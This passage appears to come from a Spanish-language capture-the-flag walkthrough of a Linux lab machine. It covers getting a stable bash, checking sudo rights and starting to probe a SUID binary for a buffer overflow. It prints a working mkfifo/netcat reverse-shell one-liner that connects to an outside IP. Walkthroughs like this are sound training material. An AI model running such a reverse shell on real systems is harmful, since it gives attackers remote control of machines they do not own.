 # Obteniendo una bash <a name="id6"></a>
En este momento no entiendo cómo es que tengo una cmd si se supone que se trata de un sistema Linux, así que trato de irme a la raíz para corroborar esto último con la estructura de directorios:

![22]

Dado que existe un directorio **/bin**, trato de spawnear una bash con ayuda de una llamada a este binario. Después de un par de intentos, varios enters y whoami's, logro obtener la bash.

![23]

Sin embargo, se trata de una bash inestable, por lo que inmediatamente ejecuto un comando que me devolverá una reverse shell ya como bash:

    rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.69.66 443 >/tmp/f

![24]

![25]

**Nota:** Para escalar privilegios en este sistema, solo basta con ejecutar un listado de permisos sudo:

    sudo -l

Y este nos regresará que cualquier usuario puede ejecutar como root una utilidad personalizada dentro del directorio del usuario anansi. Para ver este paso, ir al último apartado de esta guía.

Como no me preocupé por hacer primero una enumeración completa de vectores para escalar privilegios, terminé haciendo un paso que era en absoluto innecesario, sin embargo, me permitió aprender sobre Buffer Overflow en binarios de Linux, y ahora quiero explicarlo para que quede registro de cómo poder usar este sistema para practicarlo.

Reitero, lo siguiente no es necesario y puedes saltar hasta el último apartado para terminar de comprometer la máquina.

# Buffer Overflow en Linux <a name="id7"></a>
Listamos aquellos binarios que cuenten con permisos SUID, y vemos uno en particular que no es propio del sistema:

    /usr/local/bin/validate

![26]

Si lo ejecutamos, vemos que este pide una entrada de datos como argumento al momento de mandarlo a llamar.

![27]

Intentamos primero mandarle un par de A's para ver el comportamiento base de este programa. Vemos que solo nos indica que la entrada pasó, sea lo que eso signifique.

![28]
